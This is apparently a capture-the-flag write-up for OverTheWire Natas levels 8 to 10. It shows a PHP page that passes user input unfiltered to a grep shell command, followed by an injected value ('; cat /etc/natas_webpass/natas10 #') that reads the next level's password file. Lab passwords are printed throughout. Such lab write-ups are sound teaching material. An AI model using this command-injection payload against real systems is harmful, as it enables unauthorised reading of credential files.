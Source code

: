 
## Natas Level 8 → Level 9

> Solution: decode the base64

Username: natas9
URL:      http://natas9.natas.labs.overthewire.org
W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl

```html
Find words containing:
Output:
--------------------------------------------------------
sourcecode:
<pre>
<?
$key = "";
if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}
if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
</pre>
--------------------------------------------------------
# type in the word “password”
# then the passthru command in the PHP script:
grep -i password dictionary.txt.
# key is encapsulated in quotes, no input filtering, able to enter special characters.
--------------------------------------------------------
use the ";" command separator to use 2 commands in one line.
use the "#" command, comment out the rest of the text following the symbol.

in the input field type
"; cat /etc/natas_webpass/natas10 #"
in turn will run the passthru command as such;
"grep -i ; cat /etc/natas_webpass/natas10 #, commenting out and removing dictionary.txt."
--------------------------------------------------------
Output:
nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu
--------------------------------------------------------
```

---

## Natas Level 9 → Level 10

> Solution: decode the base64

Username: natas10
URL:      http://natas10.natas.labs.overthewire.org
nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu
